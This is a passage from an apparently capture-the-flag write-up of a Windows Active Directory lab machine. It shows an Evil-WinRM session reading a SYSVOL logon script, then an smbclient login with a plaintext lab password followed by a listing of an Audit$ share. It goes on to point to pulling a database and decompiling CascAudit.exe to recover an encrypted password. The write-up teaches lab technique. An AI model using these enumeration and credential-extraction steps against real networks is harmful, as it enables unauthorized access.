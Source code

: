 ```shell
*Evil-WinRM* PS C:\users\s.smith> type C:\Windows\SYSVOL\domain\scripts\MapAuditDrive.vbs
'MapAuditDrive.vbs
Option Explicit
Dim oNetwork, strDriveLetter, strRemotePath
strDriveLetter = "F:"
strRemotePath = "\\CASC-DC1\Audit$"
Set oNetwork = CreateObject("WScript.Network")
oNetwork.MapNetworkDrive strDriveLetter, strRemotePath
WScript.Quit
```

Enumerating SMB shares with `s.smith`, we can enter `Audit$`.

```shell
$ smbclient -U 's.smith%sT333ve2' //10.10.10.182/Audit$ 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 19:01:26 2020
  ..                                  D        0  Wed Jan 29 19:01:26 2020
  CascAudit.exe                      An    13312  Tue Jan 28 22:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 19:00:20 2020
  DB                                  D        0  Tue Jan 28 22:40:59 2020
  RunAudit.bat                        A       45  Wed Jan 29 00:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 07:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 07:38:38 2019
  x64                                 D        0  Sun Jan 26 23:25:27 2020
  x86                                 D        0  Sun Jan 26 23:25:27 2020
```

Inside the `DB` directory there is a `.db` file. Get it and use `strings` on it. We see the password but it's encrypted.

![](assets/Pasted%20image%2020250510135911.png)

Get `CascAudit.exe` and open it with `ILSpy` or `dotPeek`.
